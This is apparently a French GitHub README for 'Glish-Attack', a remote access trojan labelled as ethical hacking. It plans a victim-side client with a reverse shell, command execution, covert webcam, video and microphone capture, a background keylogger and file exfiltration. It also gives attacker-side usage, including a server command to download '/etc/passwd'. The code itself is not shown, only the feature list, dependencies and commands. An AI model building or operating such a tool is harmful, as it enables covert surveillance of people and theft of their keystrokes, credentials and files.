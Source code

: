 # Glish-Attack (HACKING ETHIQUE)
#### Voici le plan du script client (victime) qu’on va créer :
🔁 Fonctions de base
* Connexion reverse shell
* Exécution de commandes shell

- 🎥 Surveillance
- 📸 Capture webcam (photo)
- 🎬 Capture vidéo (10 sec)
- 🎙️ Enregistrement audio (10 sec via micro)
- ⌨️ Espionnage
- ⌨️ Keylogger en fond
- 💾 Exfiltration de fichiers
- 📁 Navigation et lecture de fichiers

#### On va utiliser :

```bash
pip install opencv-python sounddevice scipy pynput
```
* Webcam	`cv2` (OpenCV)
* Microphone	`sounddevice, scipy.io.wavfile`
* Keylogger	`pynput`
* Transfert fichier	`base64, open()`


#### 🔐 Fonctionnalités incluses :
Fonction	Commande côté serveur

* 📸 Webcam (photo)	>> webcam_snap
* 🎥 Vidéo (10s)	>> video_capture
* 🎙️ Audio (10s)	>> record_audio
* ⌨️ Keylogger	>> get_keys
* 📂 Télécharger fichier >> 	download /chemin/fichier
* 📁 Changer de dossier >> 	cd chemin
* ❌ Fermer la connexion >>	exit

#### 🚀 Utilisation côté attaquant (serveur)
1. Lance le serveur :

```bash
python3 server.py
```
2. Attends la connexion du client

Une fois connecté, tape des commandes :

```ruby
>> webcam_snap
>> video_capture
>> record_audio
>> get_keys
>> download /etc/passwd
>> cd /home/user
>> exit
```
